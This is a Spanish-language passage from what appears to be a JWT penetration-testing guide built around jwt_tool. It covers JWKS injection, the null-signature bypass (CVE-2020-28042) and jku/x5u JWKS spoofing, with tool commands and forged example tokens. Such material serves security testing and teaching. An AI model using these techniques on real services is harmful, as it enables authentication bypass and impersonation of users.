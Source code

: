 Si tiene éxito, la aplicación debe usar la llave privada proporcionada para verificar el token.

Utilice `jwt_tool` para inyectar un `JWKS` personalizado que contenga la clave pública generada automáticamente y firme el token con la clave privada correspondiente:
```
python3 jwt_tool.py JWT_HERE -X i
```

Si el resultado de la página es válido, entonces tiene un bypass y debe seguir con el tampering.


### Firma Nula (CVE-2020-28042)

Este ataque tiene como objetivo un error lógico en bibliotecas vulnerables que no procesan la verificación de firma, cuando esta es de longitud cero. 

Al igual que el ataque `"alg: none"`, la salida omite cualquier parte de la firma después del segundo punto, aunque en este caso el algoritmo en el encabezado no se modifica.

Ejemplo:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.
```

Deconstruido:
```
{"typ": "JWT", "alg": "HS256" }.
{"login": "ticarpi"}.
[¡Sin firma!]
```

Elimine la firma del final del token. Si es vulnerable, la aplicación no podrá comprobar la firma, ya que no ve nada que deba comprobarse.
```
$ python3 jwt_tool.py JWT_HERE -X n
```

Si el resultado de la página es válido, entonces tiene un bypass y debe seguir con el tampering.


### Spoofing de JWKS

Conjunto de claves web JSON (`JWKS`).

Este ataque juega con los valores del encabezado `jku` y `x5u`, que apuntan a la URL del archivo `JWKS` o certificado `x509` (a menudo en sí mismo en un archivo `JWKS`) que se utilizan para verificar el token firmado asimétricamente. 

Al reemplazar la URL `jku` o `x5u` con una URL controlada por el atacante que contiene la clave pública, un atacante puede usar la clave privada para firmar el token y permitir que el servicio recupere la clave pública maliciosa y verifique el token.

Ejemplo:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vdGljYXJwaS5jb20vandrcy5qc29uIn0.eyJsb2dpbiI6InRpY2FycGkifQ.FgnNEj7qm6PPQCCL_f6krxcTSg4uKJSOQf2kTNOQQty25o9ON1SkEpuRgbg54TOjBz7hoqCKc9qRP6GcFy4-5vPVh_lk8x9lQmm7A34Bqkmr41Y8oCIKzlxrdqRxm-gVRkrAXti5slICzRijThkTixe2oem4_q4_8jP01jjuVTK-h3h2ZBQ7GvICEbOTv2ffd_IB-EF6Aua4Mt1164SNamvq3XQ58pLRuZCiR2wjoj1rJ8IkND3pRfg-ziYc86RSLEqq44HCQZ9Suq2r9XGrPkKUE30O6hFCrWJYfaQUTAya8PndhxWrgV5WRzIHYA9Br0kQ29q0DUz-GESLRaK2Ww
```
